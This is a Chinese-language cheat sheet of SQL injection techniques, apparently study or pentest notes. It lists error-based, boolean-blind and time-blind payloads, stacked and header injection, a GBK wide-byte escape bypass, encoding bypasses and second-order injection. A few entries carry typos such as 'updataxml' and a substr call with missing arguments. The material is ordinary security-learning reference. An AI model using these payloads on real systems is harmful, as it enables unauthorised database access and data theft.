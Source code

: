- 报错注入

  ```sql
  extractvalue(1,concat(0x7e,(select database())))%23
  updataxml(1,concat(0x7e,(select database())),3)%23
  ```

- 布尔盲注

  ```
  and length(database())>0%23
  and substr(database())='i'%23
  and ascii(substr((select database()),1,1))=105%23
  ```

- 时间盲注

  ```sql
  and if(mid((select database()),1,1)='i',sleep(5),0)%23
  and if(mid((select database()),1,1)='i',benchmark(10000000,md5('a')),0)%23 #benchmark:执行10000000次md5
  ```

- 堆叠注入

  敏感函数：mysqli_multi_query

- header头注入（User-agent、xff、client_ip、cookie）

- 宽字节注入

  宽字节注入条件

  1. 使用了addslashes()、mysql_real_eacape_string()等转义函数对单双引号进行转义（加反斜杠）
  2. 数据库为gbk编码

  利用gbk汉字编码进行绕过（%81-%fe）

  ```
  %5c%27 -> %df%5c%27 -> 運'
  ```

- urlencode注入

  两次url编码绕过（url_encode）

- base64注入

  base64编码绕过

- 二次注入（二阶注入）

  通常在有转义函数的位置（如注册用户或者留言处）中加上单引号`'`，当单引号被加上转义后插入数据库，进入数据库后被还原为只有一个单引号。当sql语句再次查询到该内容时，则会直接取出恶意数据

#### 根据数据库分类

- mysql
- mssql
- oracle
- mongodb
- access
